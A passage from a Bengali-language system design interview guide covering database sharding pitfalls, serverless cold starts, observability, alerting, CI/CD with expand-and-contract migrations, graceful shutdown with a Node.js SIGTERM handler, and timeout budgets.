- **Sharding adds Massive Complexity:** শার্ডিং করার আগে হাজার বার ভাবা উচিত। এটি ডাটাবেস সিস্টেমে চরম পর্যায়ের অপারেশনাল জটিলতা নিয়ে আসে:
  - **No Cross-shard Joins:** আলাদা ডিবির টেবিলগুলোর মাঝে ডিরেক্ট `JOIN` কুয়েরি চালানো অসম্ভব।
  - **Cross-shard Transactions:** একাধিক শার্ডের ডেটা একসাথে রোলব্যাক বা কমিট করতে ধীরগতির Distributed Two-Phase Commits (2PC) ব্যবহার করতে হয়।
  - **Global IDs Needed:** ডাটাবেসের ডিফল্ট auto-incrementing ID কাজ করবে না (কারণ Shard A এবং Shard B উভয়ই ১, ২, ৩ জেনারেট করবে)। এর জন্য **Snowflake ID Generation** বা **UUID7** ব্যবহার করতে হবে।

### Common Mistakes

- **Sharding Too Early:** ৫-১০ লাখ ডাটার জন্য শুরুতেই শার্ডিং করা। আধুনিক সিঙ্গেল PostgreSQL ডাটাবেস কয়েক কোটি ডাটা এবং সঠিক ইণ্ডেক্সিং ও রিড রেপ্লিকা দিয়ে অনায়াসে ট্রাফিক হ্যান্ডেল করতে পারে।
- **Selecting bad Shard Key:** যেমন `Country` কে শার্ড কী হিসেবে চুজ করা, অথচ আপনার বিজনেসের ৯৫% ইউজার একই কান্ট্রির। এর ফলে ১টি শার্ড (Hot Shard) ওভারলোড হবে এবং বাকি শার্ড অলস পড়ে থাকবে।

### Interview Angle

> "পার্টিশনিং একই ডাটাবেসের ভেতরে টেবিলকে লজিক্যালি ছোট ব্লকে ভাগ করে সার্চ স্পিড বাড়ায়। অপরদিকে শার্ডিং ডেটাকে মাল্টিপল ফিজিক্যাল সার্ভারে ডিস্ট্রিবিউট করে ডাটাবেসের রাইট স্কেল ও স্টোরেজ লিমিট সলভ করে। শার্ডিং করার আগে আমরা ইণ্ডেক্স অপটিমাইজেশন, ক্যাশিং এবং রিড-রেপ্লিকা দিয়ে স্কেল ট্রাই করি। শার্ডিং করলে অবশ্যই Snowflake ID, correct shard key, এবং no join limitations মাথায় রাখতে হয়।"


## 32. Cold Start Problem

### Core Idea

**Cold Start (কোল্ড স্টার্ট):** সাধারণত সার্ভারলেস বা ফাংশন-অ্যাজ-এ-সার্ভিস (FaaS - AWS Lambda, Google Cloud Functions) আর্কিটেকচারে দেখা যায়। এটি ঘটে যখন একটি দীর্ঘক্ষণ অলস (Idle) পড়ে থাকা সার্ভারলেস ফাংশনে হঠাৎ প্রথম কোনো রিকোয়েস্ট আসে। রিকোয়েস্টটি হ্যান্ডেল করতে ক্লাউড প্রোভাইডারকে নতুন একটি ভার্চুয়াল কন্টেইনার কন্টেইনারাইজড এনভায়রনমেন্ট তৈরি করতে, রানটাইম রিমোটলি বুট করতে, প্রজেক্টের সব ফাইল-ডিপেন্ডেন্সি ও ডাটাবেস কানেকশন লোড করতে যে ২-১০ সেকেন্ডের অতিরিক্ত লেটেন্সি বা ল্যাগ হয়, তাকেই কোল্ড স্টার্ট প্রবলেম বলে।

### Cold Start vs Warm Start Lifecycle

```mermaid
sequenceDiagram
    autonumber
    actor User as Client Request
    participant AWS as Cloud FaaS Engine
    participant DB as Database

    rect rgb(255, 240, 245)
        Note over User, DB: Cold Start Lifecycle (First invocation after Idle)
        User->>AWS: Invoke Lambda API
        AWS->>AWS: 1. Provision Virtual Container (e.g. 800ms)
        AWS->>AWS: 2. Initialize Language Runtime (e.g. 500ms)
        AWS->>AWS: 3. Load App Code & Node Modules (e.g. 1.2s)
        AWS->>DB: 4. Initialize Database Connection (e.g. 400ms)
        AWS-->>User: HTTP 200 OK (Total Response Time: 3.3 seconds!)
    end

    rect rgb(240, 255, 240)
        Note over User, DB: Warm Start Lifecycle (Container already running & active)
        User->>AWS: Invoke Lambda API again
        AWS->>DB: Execute Query using Warm DB Connection (50ms)
        AWS-->>User: HTTP 200 OK (Total Response Time: 70ms!)
    end
```

### Cold Start-এর কারণসমূহ ও সমাধান

| কোল্ড স্টার্টের প্রধান কারণ | সিনিয়র মিটিগেশন স্ট্র্যাটেজি (Mitigation) |
| :--- | :--- |
| **কন্টেইনার সাইজ ও ডিপেন্ডেন্সি:** প্রজেক্ট প্যাকেজে বড় বড় লাইব্রেরি বা হেভি নোড মডিউলস থাকা। | **Tree-shaking & Minification:** কোড বান্ডলার (যেমন Webpack, esbuild) দিয়ে শুধুমাত্র ব্যবহৃত কোড ট্রি-শেক করে লাইটওয়েট জিপ বা ডিস্ট তৈরি করা। |
| **ডাটাবেস কানেকশন ওভারহেড:** প্রতিবার নতুন কোল্ড স্টার্টে নতুন কানেকশন ইনিশিয়ালাইজ করা। | **Global Scope Reuse:** গ্লোবাল ভ্যারিয়েবলের বা হ্যান্ডলারের বাইরে ডিবি কানেকশন অবজেক্ট ইনিশিয়ালাইজ করে রাখা যাতে পরবর্তী ওয়ার্ম স্টার্টে ডিরেক্ট কানেকশন রিইউজ করা যায়। |
| **VPC & Network Setup Latency:** ফাংশনটি ভিপিসির ভেতরে রাখলে এনআইআই বা আইপি অ্যাসাইন হতে টাইম লাগা। | ক্লাউড প্রোভাইডারের প্রোভাইডেড নিউ জেনারেশন হাই-স্পিড হাইব্রিড ভিপিসি রাউটিং এনাবল করা। |

### Senior Insight

- **Keep-Warm Cron Strategy:** সার্ভারলেস ফাংশনকে ওয়ার্ম রাখতে প্রতি ৫ মিনিটে একটি অটোমেটেড ক্রন জব বা CloudWatch Event দিয়ে ল্যাম্বডাতে "Ping/Warm" ট্রিগার ছুড়ে দেওয়া যায়। তবে এটি কনকারেন্ট রিকোয়েস্ট স্কেলিংয়ের সময় সম্পূর্ণ কোল্ড স্টার্ট রোধ করতে পারে না।
- **Provisioned Concurrency:** রিয়েল-টাইম কাস্টমার ফেসিং এপিআইতে যেখানে মিলি-সেকেন্ড লেটেন্সি ক্রিটিক্যাল, সেখানে AWS-এর **Provisioned Concurrency** ফিচার অন করা উচিত। এটি ক্লাউড ইঞ্জিনে আগে থেকেই কিছু কন্টেইনার অলওয়েজ ওয়ার্ম বা সচল রাখে (এটি ক্যাশ আউটপুট বাড়ালেও সার্ভারলেসের কম খরচের সুবিধা কিছুটা হ্রাস করে)।
- **Language Selection:** স্টার্টআপ টাইমের ক্ষেত্রে জাভা বা সি-শার্পের চেয়ে নোড (JavaScript) বা পাইথন (Python) সার্ভারলেসে চমৎকার গতি দেয়, কারণ এদের কোল্ড স্টার্ট ইনিশিয়েলাইজেশন ওভারহেড অত্যন্ত লাইটওয়েট।

### Common Mistakes

- **Opening DB connection inside the request handler function:** হ্যান্ডলার ফাংশনের ভেতরে কানেকশন ওপেন করার লজিক রাখা। এর ফলে প্রতিবার এপিআই কলের সময় ডাটাবেস নতুন হ্যান্ডশেক করতে বাধ্য হবে এবং ডাটাবেস কানেকশন লিক হবে।
- **Deploying monorepos as a single lambda:** একটি বিশাল মনোরেপোর সব রাউট ও মেগা প্যাকেজ নিয়ে মাত্র ১টি ল্যাম্বডা ফাংশন ডিপ্লয় করা। এতে কন্টেইনার সাইজ হিউজ হয়ে কোল্ড স্টার্ট টাইম জঘন্য মাত্রায় বেড়ে যায়।

### Interview Angle

> "কোল্ড স্টার্ট হলো সার্ভারলেস কন্টেইনার ইনিশিয়ালাইজেশনের ল্যাগ যা টেইল লেটেন্সি (P99) ড্যামেজ করে। আমরা এটি মিটিগেট করতে কোড মিনিফিকেশন (using esbuild), লাইটওয়েট বান্ডেল ফাইল সাইজ, গ্লোবাল কানেকশন রিইউজ, এবং প্রোডাকশনের ক্রিটিক্যাল এপিআই-তে AWS Provisioned Concurrency ব্যবহার করে কন্টেইনারগুলো অলওয়েজ ওয়ার্ম রাখি।"


## 33. Observability (Logs, Metrics, Tracing)

### Core Idea

**Observability (অবজারভেবিলিটি):** মানে হলো একটি চলমান সফটওয়্যার সিস্টেমের ভেতরের স্টেট (Internal State) বাইরে থেকে সিস্টেমে আসা আউটপুট, ডাটা এবং আচরণ দেখে স্পষ্টভাবে বুঝতে ও ডিবাগ করতে পারা। এটি মনিটরিংয়ের চেয়ে এক ধাপ এগিয়ে; মনিটরিং বলে সিস্টেম ভেঙেছে কিনা, আর অবজারভেবিলিটি উত্তর দেয় **কেন ভেঙেছে এবং কোথায় বাগ আছে**।

### The Three Pillars of Observability (অবজারভেবিলিটির ৩টি স্তম্ভ)

```mermaid
graph TD
    subgraph Observability [The Three Pillars]
        M[Metrics: Quantitative Trends]
        L[Logs: What happened exactly]
        T[Traces: End-to-end Request Span]
    end
    
    style M fill:#bbf,stroke:#333
    style L fill:#fbb,stroke:#333
    style T fill:#bfb,stroke:#333
```

#### ১. Metrics (পরিমাপযোগ্য ট্রেন্ডস)
সিস্টেম পারফরম্যান্সের সংখ্যাসূচক পরিমাপ যা একটি নির্দিষ্ট টাইমফ্রেমে ড্যাশবোর্ডে ট্রেন্ড শো করে (যেমন: Memory usage, Error count, Request rate)।
- **The Golden Signals (৪টি গোল্ডেন সিগন্যাল):**
  1. **Latency:** রিকোয়েস্ট সাকসেস বা ফেইল হতে কত সময় লাগছে।
  2. **Traffic:** সিস্টেমে কত রিকোয়েস্ট হিট করছে (HTTP requests per second).
  3. **Errors:** রিকোয়েস্ট ফেইলিউর রেট (যেমন ৫০০ এরর কোড শতাংশ)।
  4. **Saturation:** মেমোরি, সিপিইউ বা কিউ ডেপথের লিমিট কতটা ফুল বা সম্পৃক্ত।

#### ২. Logs (ঘটনার টাইমস্ট্যাম্পড বিবরণ)
কোডের সুনির্দিষ্ট সময়ে ঘটে যাওয়া ঘটনার টেক্সট বা স্ট্রাকচার্ড ইনফরমেশন (যেমন: `User login failed`).
- **Best Practice (Structured Logging):** র বা প্লেইন টেক্সট ফাইল না লিখে জেসন ফরম্যাটে লগ রাইট করা উচিত:
  ```json
  {"timestamp": "2026-05-26T12:00:00Z", "level": "ERROR", "service": "payment-service", "user_id": 45, "error": "Stripe Timeout", "correlation_id": "req-9a8b7c"}
  ```

#### ৩. Tracing (রিকোয়েস্টের সম্পূর্ণ পথচিত্র)
ডিস্ট্রিবিউটেড মাইক্রোসার্ভিসে একটি ইনকামিং রিকোয়েস্ট ফ্লো গেটওয়ে থেকে শুরু করে কোন কোন ডিপার্টমেন্ট সার্ভিস, ডাটাবেস বা ক্যাশ পার করে আউট হলো, তা মিলি-সেকেন্ড টাইম স্প্যান (Span) সহ ডায়াগ্রামে প্রদর্শন করা।

### Distributed Request Tracing with Correlation ID

```mermaid
sequenceDiagram
    autonumber
    actor Client as User
    participant Gateway as API Gateway
    participant UserSrv as User Service
    participant Cache as Redis Cache
    participant DB as Postgres DB

    Client->>Gateway: POST /profile (Generate Correlation ID: X-102)
    Note over Gateway: Correlation-ID: req-X-102
    Gateway->>UserSrv: Forward Request with Header: X-Correlation-ID: req-X-102
    UserSrv->>Cache: Read cache (correlation_id: req-X-102) - Cache Miss
    UserSrv->>DB: Fetch User details (correlation_id: req-X-102)
    Note over UserSrv, DB: Every single log statement in this flow prints [req-X-102]
    UserSrv-->>Client: Return Profile details
```

### Senior Insight

- **Correlation ID is Mandatory:** মাইক্রোসার্ভিস আর্কিটেকচারে প্রতিটা ইনকামিং এপিআইতে গেটওয়ে লেভেলে একটি ইউনিক আইডি জেনারেট করে সব মেথড কলে ইন্টারনাল রিকোয়েস্ট হেডারে তা ইনজেক্ট করে দিতে হবে। এতে ড্যাশবোর্ডে ওই আইডি দিয়ে সার্চ করলেই পুরো ফ্লোর সব লগ একসাথে পাওয়া যাবে (OpenTelemetry standard).
- **Beware of Logging Sensitive Data:** ডিস্ট্রিবিউটেড লগে কখনই ইউজারের পাসওয়ার্ড, ক্রেডিট কার্ডের সিভিভি, ওটিপি বা পার্সোনাল আইডেন্টিফাইড ইনফরমেশন (PII) প্লেইন টেক্সটে প্রিন্ট করা যাবে না। এটি কমপ্লায়েন্স এরর (GDPR/PCI-DSS) ঘটায়। কোডে স্যানিটাইজার ক্লাস বসাতে হবে।

### Common Mistakes

- **Using plain console.log for production:** নোড বা পাইথনে প্লেইন কনসোল ডিরেক্ট ফাইলে বা ক্লাউডওয়াচে রাইট করতে গেলে ব্লকিং ও স্লো পারফরম্যান্স দেখায়। প্রোডাকশনে পারফরম্যান্স সেভ করতে বাফারড জেসন লগার লাইব্রেরি (যেমন Node-এ **Pino** বা **Winston**) ব্যবহার করতে হবে।
- **Only monitoring averages:** এপিআই লেটেন্সির গড় (Average) দেখে খুশি হওয়া। গড় সবসময় খারাপ টেইল লেটেন্সি (P99) লুকিয়ে রাখে। মনিটরিং ড্যাশবোর্ডে অবশ্যই **P99** এবং **P95** পারসেন্টাইল দেখতে হবে।

### Interview Angle

> "অবজারভেবিলিটি আমাদের সিস্টেমের রিয়েল-টাইম ইন্টারনাল অবস্থা বুঝতে সাহায্য করে। এর ৩টি প্রধান স্তম্ভ হলো Metrics, Logs, এবং Tracing। আমরা প্রজেক্টে ওপেন-সোর্স স্ট্যান্ডার্ড OpenTelemetry ব্যবহার করি, গেটওয়েতে Correlation ID জেনারেট করে প্রপাগেট করি এবং Grafana, Prometheus ও Jaeger ড্যাশবোর্ড দিয়ে পুরো সিস্টেমের গোল্ডেন সিগন্যাল ও P99 লেটেন্সি ট্র্যাকিং নিশ্চিত করি।"


## 34. Monitoring vs Alerting

### Core Idea

- **Monitoring (পর্যবেক্ষণ):** এটি হলো সম্পূর্ণ সিস্টেমের অ্যাক্টিভ ও প্রজেক্টিভ রিয়্যাল-টাইম ডেটা, হেলথ ও পারফরম্যান্স মেট্রিকস ড্যাশবোর্ডে প্রদর্শন করার একটি প্যাসিভ বা নীরব মেকানিজম (যেমন: Grafana / Datadog-এ সিস্টেমের ড্যাশবোর্ড চেক করা)।
- **Alerting (সতর্কবার্তা):** এটি হলো একটি অ্যাক্টিভ মেকানিজম যা কোনো নির্দিষ্ট থ্রেশহোল্ড বা পরিমাপ যখন তার স্বাভাবিক সীমা অতিক্রম করে, তখন ডেডিকেটেড কমিউনিকেশন চ্যানেলের (যেমন: Slack, PagerDuty, SMS) মাধ্যমে সঠিক ইঞ্জিনিয়ার টিমকে সাথে সাথে অ্যাকশনে নামার জন্য সিগন্যাল পাঠায়।

### SLO-Based Alerting Pipeline

```mermaid
graph TD
    Collector[Prometheus Metric Collector] --> Engine[Alert Manager Engine]
    Engine --> Check{SLO Violated?
Checkout Error > 2% for 5m?}
    Check -- No: Normal state --> Dash[Update Grafana Dashboard]
    Check -- Yes: Urgent Incident --> Route{Alert Severity?}
    Route -- Critical P1 --> Pager[PagerDuty Phone Call / On-Call Engineer Triggered]
    Route -- Warning P2/P3 --> Slack[Post to #alerts Slack channel]
    
    style Pager fill:#fbb,stroke:#333
    style Slack fill:#fdb,stroke:#333
```

### Good Alert vs Bad Alert Strategy

| বৈশিষ্ট্য | ❌ Bad / Noisy Alerting |  Good / Actionable Alerting |
| :--- | :--- | :--- |
| **অ্যালার্ট রুল** | `CPU Usage > 75% for 1 minute` | `Checkout payment failure rate > 3% for 5 minutes` |
| **অ্যালার্টের ধরণ** | **নয়েজি:** ইউজারের কোনো ইমপ্যাক্ট নেই, ব্যাকগ্রাউন্ড ক্রনে হুট করে সিপিইউ রাইজ করেছে যা পরে নেমে গেছে। | **অ্যাকশনেবল:** রিয়াল ইউজারের পেমেন্ট ফেইল করছে, যা সরাসরি কোম্পানির রেভিনিউ লস ঘটাচ্ছে। |
| **ফলাফল** | **Alert Fatigue:** ইঞ্জিনিয়াররা হুটহাট অ্যালার্ট আসায় অ্যালার্ট চ্যানেল মিউট করে রাখে এবং রিয়াল বাগ ফেইল মিস করে। | **হাই অ্যালার্টনেস:** রিয়াল সমস্যার সময়েই অ্যালার্ট আসে এবং রানবুক দেখে সাথে সাথে ইঞ্জিনিয়াররা সমাধান করে। |

### Senior Insight

- **SLI / SLO / SLA Mental Model:** সিনিয়র ইঞ্জিনিয়ারদের সার্ভিস লেভেল এগ্রিমেন্ট ম্যাপ করতে হবে:
  - **SLI (Service Level indicator):** আপনি কী পরিমাপ করছেন (যেমন: এপিআই সাকসেস রেট)।
  - **SLO (Service Level Objective):** ইন্টারনাল টার্গেট গোল (যেমন: আমাদের এপিআই সাকসেস রেট যেন ৯৯.৯% এর উপরে থাকে)।
  - **SLA (Service Level Agreement):** কাস্টমার ফেসিং লিগ্যাল বন্ড (যেমন: এপিআই ৯৯% এর নিচে সচল থাকলে বিল ফেরত দেওয়া হবে)।
- **SLA Alerting Rules:** অ্যালার্ট সবসময় **SLO** ব্রেক করার আগে বা **Error Budget** শেষ হওয়ার পথে থাকলে অন-কল ইঞ্জিনিয়ারকে নক করতে হবে।
- **Runbooks (প্লেবুক):** প্রতিটি প্রোডাকশন অ্যালার্ট মেসেজে অবশ্যই একটি উইকি বা ডকুমেন্টেশনের **Runbook Link** থাকতে হবে। এতে রাতে ঘুম থেকে ওঠা অন-কল ডেভেলপার অ্যালার্ট মেসেজেই দেখতে পারবে এই সমস্যাটি সলভ করতে কী কী কমান্ড বা ট্রাবলশুটিং করতে হবে।

### Common Mistakes

- **Alerting on system warnings that auto-heal:** কন্টেইনার সাময়িকভাবে রিস্টার্ট নিচ্ছে বা টেম্প মেমোরি ল্যাগ হচ্ছে যা ওআরএম রিকভার করবে, তার জন্য পি১ বা ক্রিটিক্যাল এলার্ট কল ছুড়ে দেওয়া।
- **Configuring alerts without ownership:** অ্যালার্ট কোন স্ল্যাক চ্যানেলে গেল এবং তার জন্য কে রেসপন্সিবল তা সুনির্দিষ্ট না করা, যার ফলে অ্যালার্ট সবাই দেখে কিন্তু কেউ সলভ করতে নামে না (Diffused responsibility).

### Interview Angle

> "মনিটরিং আমাদের ডাটা সংগ্রহ ও ড্যাশবোর্ডে প্রজেক্টের হেলথ বুঝতে সাহায্য করে, আর অ্যালার্ট অ্যাকশনেবল সময়ে আমাদের অ্যালার্টনেস জানায়। আমরা অ্যালার্ট ফ্যাটিগ (Alert Fatigue) এড়াতে অপ্রয়োজনীয় মেট্রিকসের বদলে সরাসরি কাস্টমার-ফেসিং ও SLO-ভ্যাসড অ্যালার্ট ডিজাইন করি, অ্যালার্টের সাথে রানবুক যুক্ত করি এবং PagerDuty ও Slack ম্যাপ করে অন-কল শিডিউল মেইনটেইন করি।"


## 35. CI/CD Pipelines

### Core Idea

- **CI (Continuous Integration - নিরবচ্ছিন্ন একীকরণ):** এটি হলো কোড ইন্টিগ্রেশন প্রসেস। কোড পুশ করার পর অটোমেটেড পাইপলাইনের মাধ্যমে কোড বিল্ড করা, লিন্টিং চেক করা, সিকিউরিটি স্ক্যান করা এবং সম্পূর্ণ টেস্ট সুইট (Unit & Integration tests) রান করে ভেরিফাই করা যাতে কোনো রিগ্রেশন বাগ মূল মাস্টার ব্রাঞ্চে ঢুকতে না পারে।
- **CD (Continuous Delivery/Deployment):** এটি হলো সাকসেসফুলি ইন্টিগ্রেটেড কোড আর্টফ্যাক্টস (যেমন Docker images) কন্টেইনারাইজ করে অটোমেটিক বা ওয়ান-ক্লিক অ্যাপ্রুভালের মাধ্যমে স্টেজিং ও প্রোডাকশন সার্ভারে সম্পূর্ণ সেফলি এবং জিরো-ডাউনটাইমে ডিপ্লয় করা।

### Pipeline Stages Workflow

```text
[ Developer Push ]
       │
       ▼
 [ CI STAGE ] ──────► Build Code ──────► Run Linter ──────► Run Tests ──────► Security Scan
       │                                                                           │
       ▼                                                                           ▼
 [ CD STAGE ] ──────► Package Docker Image ───► Push Registry ───► Deploy Staging ───► Deploy Prod
```

### Deployment Strategies (নিরাপদ ডিপ্লয়মেন্ট স্ট্র্যাটেজি)

```mermaid
graph TD
    subgraph BlueGreen ["Blue-Green Deployment (Zero-Downtime)"]
        Router[Load Balancer] -->|HTTP 100% Traffic| Blue["(Blue Environment: Active Live v1.0)"]
        Router -.->|Traffic Switchover| Green["(Green Environment: Staging v2.0)"]
    end

    subgraph Canary ["Canary Deployment (Risk Mitigation)"]
        LB[Load Balancer Router]
        LB -->|95% Traffic| Prod_V1["(Prod Node v1.0)"]
        LB -->|5% Traffic| Prod_V2["(Canary Node v2.0)"]
    end
```

### Zero-Downtime Database Migration Strategy

ডিপ্লয়মেন্ট পাইপলাইনের সবচেয়ে বড় ক্রিটিক্যাল পার্ট হলো ডাটাবেস মাইগ্রেশন (Database Migration)। আপনি যদি হুট করে মাইগ্রেশনে একটি কলাম রিনেম করেন, তবে পুরনো কোড রানিং ভার্সনটি ওই কলাম খুঁজে না পেয়ে ক্র্যাশ করবে।
**সমাধান (Expand & Contract Pattern):**
1. **Expand (কলাম যুক্ত করা):** মাইগ্রেশনে নতুন কলাম অ্যাড করুন এবং অ্যাপ্লিকেশনের নিউ ভার্সন ডিপ্লয় করুন যা একই সাথে ওল্ড ও নিউ উভয় কলামে রাইট করে।
2. **Backfill (ডাটা রি-রাইট):** ব্যাকগ্রাউন্ড ক্রন জব বা স্ক্রিপ্ট দিয়ে ওল্ড কলামের হিস্টোরিক্যাল ডাটা নিউ কলামে কপি করে নিন।
3. **Contract (সুইচ ও রিমুভ):** অ্যাপের রিড অপারেশন সম্পূর্ণ ওল্ড কলাম থেকে নিউ কলামে সুইচ করুন। ওল্ড কোড রানিং না থাকলে আরেকটি মাইগ্রেশন দিয়ে ওল্ড কলামটি পার্মানেন্টলি ডিলিট করে দিন।

### Senior Insight

- **Automate Everything but DB Migrations Approval:** সিআই/সিডি পাইপলাইনে কোড অটোমেটিক ডিপ্লয় হলেও ডাটাবেস মাইগ্রেশন কড়া রিভিউ ছাড়া অটোমেটিক প্রোডাকশনে রান হতে দেওয়া উচিত নয়। বিশেষ করে বড় টেবিলে মাইগ্রেশন চালানোর আগে লক এড়াতে ওল্ড মাইগ্রেশন প্রপার চেক করা ক্রিটিক্যাল।
- **Fast Feedback Loop:** সিআই পাইপলাইনের রানিং টাইম যেন ৮-১০ মিনিটের বেশি না হয়। অতিরিক্ত লম্বা টেস্ট সুইট সিআইকে স্লো করে ডেভেলপারদের ডেভেলপমেন্ট ভেলোসিটি বা ফিডব্যাক লুপ নষ্ট করে দেয়। টেস্ট প্যারালালাইজ করা উচিত।

### Common Mistakes

- **Storing secrets and API keys inside Git Repository:** সিআই স্ক্রিপ্ট বা এনভায়রনমেন্ট ফাইল গিটহাবে পুশ করে দেওয়া। এনভায়রনমেন্ট সিক্রেটস ও কী সবসময় ক্লাউড সিক্রেট স্টোর (Vault / AWS Secrets Manager/ GitHub Secrets) থেকে রানটাইমে পাইপলাইনে ইনজেক্ট করতে হবে।
- **No rollback strategy:** প্রোডাকশনে নতুন কোড ছাড়ার পর যদি এপিআই ফেইল করে, তবে দ্রুত ওয়ান-ক্লিক বা অটো-রোলব্যাক অপশন কনফিগার না রাখা।

### Interview Angle

> "সিআই অটোমেটেড বিল্ড, টেস্ট ও লিন্টিংয়ের মাধ্যমে প্রজেক্টে বাগ ঢোকা বন্ধ করে। আর সিডি ব্লু-গ্রিন বা ক্যানারি রিলিজ ব্যবহার করে জিরো-ডাউনটাইমে কোড ডিপ্লয় করে। ডাটাবেস মাইগ্রেশনের ক্ষেত্রে আমরা রানিং অ্যাপ ক্র্যাশ এড়াতে Expand & Contract আর্কিটেকচার মেনে চলি এবং পাইপলাইনে ভল্ট বা সিক্রেট ম্যানেজার দিয়ে সিক্রেটস ইনজেকশন নিশ্চিত করি।"


## 36. Graceful Shutdown

### Core Idea

**Graceful Shutdown (সুশৃঙ্খল বন্ধকরণ):** হলো অ্যাপ্লিকেশন প্রসেস বন্ধ বা রিস্টার্ট করার এমন একটি সিস্টেম প্যাটার্ন, যেখানে সার্ভারটি কিল বা শাটডাউন করার নোটিশ পাওয়া মাত্রই ইনস্ট্যান্টলি রানিং রিকোয়েস্ট ড্রপ না করে, নতুন রিকোয়েস্ট নেওয়া বন্ধ করে দেয় এবং অলরেডি সিস্টেমে প্রসেস হতে থাকা ইন-ফ্লাইট রিকোয়েস্টগুলো (In-flight Requests) শেষ করার জন্য নির্দিষ্ট গ্রেস পিরিয়ড সময় অপেক্ষা করে। এরপর সমস্ত ডাটাবেস ও কিউ কানেকশন নিরাপদে ক্লোজ করে মেমোরি রিলিজ দিয়ে প্রসেসটি বন্ধ করে।

### Graceful Shutdown Sequence Flow

```mermaid
sequenceDiagram
    autonumber
    actor LB as Load Balancer
    participant App as Application Node
    participant DB as Database Server
    actor OS as K8s / Process Orchestrator

    OS->>App: Send SIGTERM Signal (Shutdown Initiated)
    App->>LB: 1. Fail Readiness Probe / Set Unhealthy (LB stops routing new traffic)
    App->>App: 2. Stop accepting new HTTP connections
    App->>App: 3. Process remaining Active In-flight Requests (grace period e.g. 15s)
    App->>DB: 4. Finish Queries & Close DB Connection Pool cleanly
    App->>App: 5. Flush residual memory logs
    App-->>OS: 6. Exit with Code 0 (Success clean shutdown)
```

### Why Graceful Shutdown is Crucial in Production

1. **Zero Client Request Drops:** যদি সার্ভার ডিপ্লয়মেন্টের সময় রানিং অ্যাপ্লিকেশন র্যান্ডমলি কিল (`SIGKILL`) করা হয়, তবে ওই মুহূর্তে যে ৫% ইউজারের পেমেন্ট প্রসেস বা কুয়েরি চলছিল, তাদের ট্রানজেকশন ডেটা করাপ্ট বা ড্রপ হবে এবং ইউজার গেটওয়েতে ৫০০ বা ৫০২ এরর স্ক্রিন দেখবে।
2. **Safer Microservices deployments:** বিশেষ করে ডিস্ট্রিবিউটেড Kubernetes আর্কিটেকচারে রোলিং আপডেটের সময় কন্টেইনার অনবরত রিস্টার্ট ও রিপ্লেস হয়। সুশৃঙ্খল শাটডাউন না থাকলে ডিস্ট্রিবিউটেড নোডে চেইন এরর তৈরি হবে।

### Senior Insight (K8s and Node.js implementation)

কোডে ওএস সিগন্যাল ট্র্যাকিং মেকানিজম বসাতে হবে। নোড বা গো সার্ভারে `SIGTERM` সিগন্যাল লিসেন করতে হবে:
```javascript
process.on('SIGTERM', () => {
  console.log('SIGTERM received. Starting graceful shutdown...');
  
  // 1. HTTP সার্ভার বন্ধ করুন যাতে নতুন কানেকশন না ঢোকে
  server.close(() => {
    console.log('HTTP server closed. Cleaning up resources...');
    
    // 2. ডাটাবেস কানেকশন পুল ক্লোজ করুন
    db.end(() => {
      console.log('Database pool terminated. Exiting cleanly.');
      process.exit(0); // Exit code 0 মানে ক্লিন এক্সিট
    });
  });
  
  // 3. যদি কোনো রিকোয়েস্ট ১৫ সেকেন্ডের বেশি হ্যাং থাকে, তবে জোড়পূর্বক রিলিজ করুন
  setTimeout(() => {
    console.error('Forced shutdown due to timeout');
    process.exit(1);
  }, 15000);
});
```

### Common Mistakes

- **Ignoring SIGTERM and letting OS SIGKILL the process:** কোডে ওএস এর শাটডাউন সিগন্যাল ট্র্যাপ না করা। ওএস ৩০ সেকেন্ড পর অটোমেটিক প্রসেসটি ফোর্সড কিল করে দেয়, যার ফলে ক্লিনআপ লজিক কখনই কাজ করে না।
- **Closing Database pool before closing HTTP server:** আগে ডিবি কানেকশন বন্ধ করে ফেলা, কিন্তুHTTP সার্ভার তখনো নতুন রিকোয়েস্ট নিচ্ছে। এর ফলে রানিং রিকোয়েস্টগুলো ডাটাবেস না পেয়ে ক্র্যাশ করবে। সিকোয়েন্স হতে হবে: **HTTP Server Close -> Wait In-flight -> DB Close -> Exit**.

### Interview Angle

> "সুশৃঙ্খল শাটডাউন এপিআই লেভেলে ট্রাফিক লস বা ডেটা করাপশন এড়াতে চরম ক্রিটিক্যাল। আমরা সিস্টেমে SIGTERM সিগন্যাল ট্র্যাপ করি, রিডিনেস প্রোব ফেইল করে গেটওয়ে থেকে নোডটি আন-রেজিস্টার করি, ইন-ফ্লাইট রিকোয়েস্টগুলো ফিনিশ করতে গ্রেস পিরিয়ড ওয়েট করি এবং ফাইনালি কানেকশন পুল ক্লোজ করে ক্লিন শাটডাউন নিশ্চিত করি।"


## 37. Timeouts & Retries

### Core Idea

- **Timeout (টাইমআউট):** এটি হলো কোনো ডাউনস্ট্রিম সার্ভিস বা ডিপেন্ডেন্সি (যেমন ডাটাবেস, থার্ড-পার্টি পেমেন্ট এপিআই) থেকে রেসপন্স পাওয়ার জন্য আমাদের সিস্টেম সর্বোচ্চ কত সময় অপেক্ষা করবে তার একটি নির্দিষ্ট লিমিট।
- **Retry (রিট্রাই):** এটি হলো ক্ষণস্থায়ী এরর (Transient Errors - যেমন নেটওয়ার্ক ড্রপ বা ৫০০ এরর) হ্যান্ডেল করতে নির্দিষ্ট সময় পর পুনরায় একই রিকোয়েস্ট সাবমিট বা পাঠানোর মেকানিজম।

### Timeouts Cascading and Timeout Budget

ডিস্ট্রিবিউটেড মাইক্রোসার্ভিসে চেইন টাইমআউট বা **Timeout Budget** অত্যন্ত গুরুত্বপূর্ণ। যদি ক্লায়েন্ট একটি এপিআই-তে সর্বোচ্চ ৩ সেকেন্ডের টাইমআউট দিয়ে ওয়েট করে, তবে ভেতরের সার্ভিসগুলোর ইন্টারনাল টাইমআউট ৩ সেকেন্ডের কম হতে হবে।

```text
[ Client Endpoint (Timeout: 3s) ]
            │
            ▼
   [ Gateway Service (Timeout: 2.5s) ]
            │
            ▼
    [ Order Service (Timeout: 1.5s) ] ──────► [ DB Server (Timeout: 1.0s) ]
```

যদি `DB Server` এ কুয়েরি রান হতে ৫ সেকেন্ড সময় নেয়, অথচ `Order Service`-এর টাইমআউট মাত্র ১.৫ সেকেন্ড থাকে, তবে ডাটাবেস কুয়েরি রান হতে হতেই অর্ডার সার্ভিস কানেকশন ক্লোজ করে এরর দিয়ে দিবে। এতে ডাটাবেসের রিসোর্স সম্পূর্ণ অপচয় (Resource Waste) হবে কারণ ক্লায়েন্ট অলরেডি কানেকশন কেটে চলে গেছে।

### Exponential Backoff & Jitter Strategy Visual

```mermaid
graph TD
    Start[Request Failed] --> Check{Max attempts reached?}
